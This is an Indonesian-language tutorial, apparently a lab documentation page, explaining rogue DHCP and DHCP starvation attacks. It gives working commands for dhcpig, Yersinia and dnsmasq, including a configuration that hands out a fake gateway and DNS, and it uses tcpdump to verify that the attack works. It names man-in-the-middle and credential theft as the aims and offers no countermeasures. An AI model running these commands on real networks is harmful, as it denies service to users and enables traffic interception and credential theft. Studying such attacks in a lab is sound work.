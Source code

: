 ```yaml
---
sidebar_position: 2
---
```


# DHCP Rogue

## Pengertian DHCP Rogue  
DHCP Rogue adalah server DHCP tidak sah yang berjalan di dalam jaringan dan memberikan alamat IP kepada perangkat yang terhubung. Server ini dapat dikonfigurasi oleh penyerang atau pengguna yang tidak menyadari dampaknya, menyebabkan gangguan jaringan dan serangan Man in the Middle (MITM).

![alt text](<images/dhcp rogue/image.png>)

**Cara Kerja DHCP Rogue**  
1. Penyerang mengaktifkan server DHCP tidak sah.
2. Server rogue merespons permintaan DHCP lebih cepat dari server resmi.
3. Perangkat klien menerima alamat IP dari server rogue dengan konfigurasi jaringan yang salah.
4. Penyerang dapat mengarahkan lalu lintas jaringan melalui perangkatnya untuk melakukan sniffing atau manipulasi data.

**Dampak DHCP Rogue**  
- Perangkat klien bisa mendapatkan alamat IP yang salah dan kehilangan akses ke jaringan.
- Penyerang dapat melakukan serangan MITM dengan mengarahkan lalu lintas melalui servernya.
- Risiko pencurian kredensial meningkat melalui serangan berbasis DNS spoofing.

**Kombinasi dengan DHCP Starvation**  
DHCP Rogue sering dikombinasikan dengan serangan DHCP Starvation. Penyerang pertama-tama menghabiskan seluruh alamat IP yang tersedia di server DHCP sah menggunakan DHCP Starvation, lalu mengaktifkan server DHCP Rogue untuk memberikan alamat IP kepada perangkat korban dengan konfigurasi berbahaya.

## 1. DHCP Starvation

### Pengertian dhcpig
`dhcpig` adalah tool open-source yang digunakan untuk melakukan serangan **DHCP Starvation**. Serangan ini bertujuan untuk menghabiskan semua alamat IP yang tersedia di server DHCP sehingga klien sah tidak dapat memperoleh alamat IP.

### Cara Kerja DHCP Starvation
- `dhcpig` mengirimkan banyak permintaan **DHCP Discover** dengan berbagai alamat MAC palsu.
- Server DHCP akan memberikan respon **DHCP Offer** untuk setiap permintaan yang diterima.
- Karena setiap permintaan berasal dari alamat MAC yang berbeda, server menganggapnya sebagai klien unik dan mengalokasikan IP baru untuk setiap permintaan.
- Akhirnya, pool alamat IP akan habis, menyebabkan klien sah gagal mendapatkan alamat IP.

### Contoh Perintah DHCP Starvation dengan dhcpig
Untuk menjalankan serangan dengan `dhcpig`, gunakan perintah berikut di sistem berbasis Linux:
```bash
sudo dhcpig -i eth0
```
- `-i eth0` menentukan antarmuka jaringan yang digunakan untuk serangan.

### Alternatif Lain untuk DHCP Starvation
Selain `dhcpig`, ada juga tool lain yang bisa digunakan untuk DHCP Starvation seperti:
- **Yersinia**: Tool untuk menyerang berbagai protokol jaringan, termasuk DHCP.
  ```bash
  sudo yersinia dhcp -attack 1
  ```
  (Attack 1 adalah mode starvation pada Yersinia)

## 2. DHCP Rogue
### a. dnsmasq
Untuk membuat DHCP Rogue menggunakan `dnsmasq`, ikuti langkah berikut:
```bash
sudo apt update && sudo apt install dnsmasq -y
```

#### Konfigurasi IP Statis
Sebelum mengaktifkan DHCP Rogue, pastikan antarmuka jaringan memiliki alamat IP statis:
```bash
sudo ip addr add 192.168.10.1/24 dev eth0
```
Atau gunakan `nmtui` (Network Manager Text User Interface) untuk mengatur IP:
```bash
nmtui
```
Ubah IP menjadi **192.168.10.1** pada antarmuka jaringan yang sesuai.

#### Konfigurasi dnsmasq
Edit file konfigurasi `dnsmasq`:
```bash
sudo nano /etc/dnsmasq.conf
```
Tambahkan atau ubah konfigurasi berikut:
```ini
interface=eth0  # Ganti dengan interface yang digunakan

dhcp-range=192.168.1.10,192.168.1.200,12h  # Rentang alamat IP untuk klien
dhcp-option=3,192.168.1.1  # Gateway palsu (bisa disesuaikan)
dhcp-option=6,8.8.8.8,8.8.4.4  # DNS palsu
```

Simpan file dan keluar, lalu restart layanan `dnsmasq`:
```bash
sudo systemctl restart dnsmasq
sudo systemctl enable dnsmasq
```

### b. Verifikasi DHCP Rogue
Periksa log untuk memastikan `dnsmasq` berjalan dengan benar:
```bash
sudo journalctl -u dnsmasq --no-pager | tail -n 20
```

Gunakan `tcpdump` untuk melihat trafik DHCP:
```bash
sudo tcpdump -i eth0 port 67 or port 68 -n
```
Jika berhasil, setelah pool DHCP asli habis, klien akan mulai mendapatkan alamat IP dari DHCP Rogue yang telah dibuat.
![alt text](<images/dhcp rogue/image-1.png>)
![alt text](<images/dhcp rogue/image-2.png>)

### Alternatif Lain untuk DHCP Server
Selain `dnsmasq`, ada beberapa opsi lain untuk membuat DHCP Server, seperti:
- **ISC DHCP Server**: DHCP server yang lebih kompleks dan memiliki banyak fitur tambahan.
  ```bash
  sudo apt install isc-dhcp-server -y
  ```

## 3. DHCP Rogue dengan Yersinia
Selain menggunakan `dnsmasq`, kita juga bisa menggunakan `Yersinia` untuk menjalankan DHCP Rogue.

### a. Instalasi Yersinia
Jika belum terinstal, pasang `Yersinia` terlebih dahulu:
```bash
sudo apt install yersinia -y
```

### b. Menjalankan Yersinia mode dhcp rogue
Untuk menjalankan DHCP Rogue menggunakan `Yersinia`, gunakan perintah berikut:
```bash
sudo yersinia dhcp -attack 2 -I eth0
```
- `-attack 2` adalah mode rogue DHCP server.
- `-I eth0` menentukan antarmuka jaringan yang digunakan.

Dengan menjalankan perintah ini, `Yersinia` akan mulai menawarkan alamat IP ke klien yang mencari server DHCP, membuatnya mendapatkan konfigurasi jaringan dari DHCP Rogue.

## Kesimpulan
- `dhcpig` dapat digunakan untuk serangan **DHCP Starvation** dengan cara menghabiskan IP pool pada server DHCP.
- `dnsmasq` dapat digunakan untuk membuat **DHCP Rogue** agar klien yang tidak mendapatkan IP dari DHCP asli tetap bisa mendapatkan IP.
- `Yersinia` juga bisa digunakan sebagai alternatif untuk menjalankan **DHCP Rogue**.
- Monitoring menggunakan `tcpdump` membantu dalam melihat trafik DHCP untuk memastikan keberhasilan serangan atau konfigurasi DHCP Rogue.

Dengan tutorial ini, diharapkan pengguna dapat memahami bagaimana DHCP Starvation dan DHCP Rogue bekerja serta bagaimana mengimplementasikannya menggunakan `dhcpig`, `dnsmasq`, dan `Yersinia`.